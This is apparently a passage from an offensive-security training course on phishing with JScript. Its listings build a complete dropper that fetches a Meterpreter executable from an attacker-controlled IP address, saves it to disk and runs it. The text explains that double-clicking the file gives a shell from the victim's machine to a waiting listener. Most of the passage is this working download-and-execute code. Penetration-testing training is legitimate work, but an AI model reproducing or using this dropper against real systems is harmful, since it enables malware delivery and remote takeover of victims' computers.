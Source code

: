 ```
Stream.SaveToFile("met.exe", 2);
Stream.Close();
```

> Listing 6 - Saving the Meterpreter executable to disk

As a final step, we'll reuse the Windows Script Host Shell to execute the newly written Meterpreter executable.

```
var r = new ActiveXObject("WScript.Shell").Run("met.exe");
```

> Listing 7 - Running the Meterpreter executable

The complete Jscript code to download and execute our Meterpreter shell is displayed below:

```
var url = "http://192.168.251.151/met.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();

if (Object.Status == 200)
{
    var Stream = WScript.CreateObject('ADODB.Stream');

    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.Position = 0;

    Stream.SaveToFile("met.exe", 2);
    Stream.Close();
}

var r = new ActiveXObject("WScript.Shell").Run("met.exe");
```

> Listing 8 - Complete Jscript code to download and execute Meterpreter shell

After saving this code as a **.js** file, we only need to double-click it to get a 64-bit shell from the victim's machine to our awaiting multi/handler listener.

It is worth mentioning that Jscript supports proxy configuration via the _setProxy_[12](https://portal.offsec.com/courses/pen-300-9502/learning/phishing-with-jscript-188661/phishing-with-jscript-188714#fn-local_id_66-12) method.

Now that we've covered the basics of Jscript, we'll again expand our tradecraft to implement an in-memory shellcode runner. Since there is no way to implement this directly in Jscript, we must rely on a second language.

1

(Wikipedia, 2019), [https://en.wikipedia.org/wiki/MSXML](https://en.wikipedia.org/wiki/MSXML) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/phishing-with-jscript-188661/phishing-with-jscript-188714#fnref-local_id_66-1)
